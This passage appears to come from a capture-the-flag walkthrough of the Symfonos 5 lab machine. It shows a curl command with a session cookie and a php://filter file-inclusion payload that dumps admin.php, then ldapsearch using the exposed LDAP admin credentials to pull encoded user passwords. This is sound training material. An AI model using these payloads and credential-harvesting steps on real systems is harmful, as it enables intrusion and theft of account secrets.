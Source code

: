 Then I tried to see the content of the **admin.php** file, for this we need the session cookie, we intercept the request with burpsuite and copy the cookie for then include it in our curl request, as shown below:

![](/assets/images/symfonos5/screenshot-7.png)

```console
root@kali:~$ curl -s --cookie "PHPSESSID=l858dt8bk4coinqvjcskmutsg9" "http://192.168.179.140/home.php?url=php://filter/convert.base64-encode/resource=admin.php" | grep -oP '^\w[^<]*' | base64 -d | tee admin.php
...
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");
...
```

In the output we can see the connection credentials for LDAP, With this We'll try to enumerate the LDAP service on port 389.

### LDAP Enumeration
With the **ldapsearch** utility we can try to enumerate for user credentials.

```console
root@kali:~$ ldapsearch -h 192.168.179.140 -x -D "cn=admin,dc=symfonos,dc=local" -b "dc=symfonos,dc=local" -W
Enter LDAP Password: 
...
# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
```